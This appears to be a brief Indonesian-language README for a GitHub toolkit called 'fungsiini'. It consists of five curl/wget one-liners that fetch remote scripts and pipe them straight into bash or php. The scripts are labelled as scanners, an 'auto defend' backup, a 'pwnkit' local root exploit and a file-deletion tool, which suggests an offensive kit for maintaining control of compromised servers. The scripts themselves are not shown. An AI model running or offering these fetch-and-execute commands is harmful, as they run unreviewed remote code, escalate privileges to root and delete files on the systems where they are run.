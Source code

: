 # fungsiini Command line linux
# Robot Mabok Anti

1, scaner cepat 
curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/sca.sh | bash > hascan.txt 2>&1

2, backup auto defend

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/cod.php | php - backup y > hackup.txt 2>&1

3, scanner powerfull 

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/outsca.php | php

4, pwnkit root localhost

wget https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/pwk.sh -q -O - |bash

5, Mendelet berdasarkan nama file kon7l

curl -s https://raw.githubusercontent.com/heck221/fungsiini/refs/heads/main/delet.php | php namafile.php
